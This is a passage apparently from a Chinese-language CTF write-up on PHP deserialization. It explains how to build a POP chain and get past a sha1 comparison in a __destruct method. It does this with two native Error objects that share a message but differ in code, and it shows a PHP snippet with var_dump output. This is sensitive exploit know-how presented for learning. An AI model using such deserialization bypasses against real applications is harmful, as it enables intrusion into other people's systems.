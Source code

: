 [https://www.php.net/manual/zh/function.file-put-contents.php](https://www.php.net/manual/zh/function.file-put-contents.php)

![](2021-12-01%2009-44-09%20的屏幕截图.png)

# 构造pop链

`Welcome->__destruct`中存在`sha1($this->sha1) === sha1($this->sha2)`且两者均不为array

这里需要用到原生类反序列化来进行绕过

`Error`与`Exception`的`__construct`函数中均使用了`$message`和`$code`,但`__toString`中仅使用了`$message`,利用这一特性可以构造hash相同但值不同的两个变量

```php
<?php
$a = new Error($message = "misaka", $code = 0);$b = new Error($message = "misaka", $code = 1);
var_dump($a);
var_dump($b);
var_dump(md5($a));
var_dump(md5($b));
var_dump(sha1($a));
var_dump(sha1($b));
```

```php
object(Error)[1]
  protected 'message' => string 'misaka' (length=6)
  private 'string' => string '' (length=0)
  protected 'code' => int 0
  protected 'file' => string '/var/www/html/declared_class_unserialize/hash_cmp.php' (length=53)
  protected 'line' => int 2
  private 'trace' => 
    array (size=0)
      empty
  private 'previous' => null
object(Error)[2]
  protected 'message' => string 'misaka' (length=6)
  private 'string' => string '' (length=0)
  protected 'code' => int 1
  protected 'file' => string '/var/www/html/declared_class_unserialize/hash_cmp.php' (length=53)
  protected 'line' => int 2
  private 'trace' => 
    array (size=0)
      empty
```